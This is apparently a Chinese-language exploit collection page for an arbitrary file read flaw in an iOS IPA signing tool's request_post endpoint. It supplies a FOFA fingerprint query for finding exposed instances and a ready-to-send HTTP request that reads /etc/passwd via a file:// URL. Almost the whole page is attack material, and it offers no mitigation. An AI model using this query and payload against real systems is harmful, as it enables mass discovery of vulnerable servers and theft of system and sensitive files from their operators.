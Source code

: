 # 苹果IOS端IPA签名工具request_post任意文件读取漏洞

苹果IOS端IPA签名工具request_post任意文件读取漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

## fofa

```javascript
body="/assets/index/css/mobileSelect.css"
```

## poc

```javascript
GET /api/index/request_post?url=file:///etc/passwd&post_data=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Connection: close
```

![image-20240926101437457](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409261014514.png)